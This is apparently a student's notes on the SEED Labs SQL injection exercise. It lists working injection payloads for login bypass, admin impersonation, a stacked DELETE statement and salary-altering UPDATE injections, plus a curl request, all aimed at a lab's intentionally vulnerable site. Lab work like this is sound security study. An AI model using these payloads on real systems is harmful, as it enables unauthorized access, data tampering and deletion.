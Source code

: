 # SQL Injection 

## Summary 
* SQL injection attacks are due to invalidated user inputs. 
* The attackers inject inputs in the text box such that the SQL statement on the server side is reconstructed as per the attacker's needs. 
* The victims may not even know that their data is compromised. 

## Links 


## SeedLab Tasks:

#### A simple PHP application. 
* Link : https://gitlab.com/shivapbhusal/app_analysis/blob/master/security_examples/sql_injection.php

#### Seedlab tasks 
* Link : http://www.cis.syr.edu/~wedu/seed/Labs_12.04/Web/Web_SQL_Injection/SQL_Injection.pdf

#### Task 1: Playing with the MySQL console 
```sql
mysql -u root -pseedubuntu
use Users; # name of the database 
show tables; # show all the tables in Users database 
```

#### Task 2.1 : SQL injection attack from webpage 
To simply login, attacker can type this in the Employee ID textbox 
```
a ' or 1 #

```

To login as admin, attacker can type this. We assume, attacker knows the name of admin. 
```
a ' or Name='Admin' #
```

#### Task 2.2. : From the command line 
```
curl 'http://www.seedlabsqlinjection.com/unsafe_credential.php?EID=a+%27+or+Name%3D%27Admin%27+%23&Password=aass'
``` 

#### Task 2.3. : Append a new SQL statement 
Had some issues with this. Draft script. P.S : Attacker will also not know the table name. 
```
a ';delete from credential where Name='Abc'#
```

#### Task 3.1 : Updating the salary 
Employee can't edit their salary information. But they can do this with the help of SQL injection attack. Type this in any of the field 
```
aaaaaa',salary=100000#
```

#### Task 3.2 : Updating the salary of one specific person
Set the value of first field as 
```
aaaaaa',salary=1 where Name='Ryan'#
```

& set the values of every other fields as # so that every statements executed are commented out. 
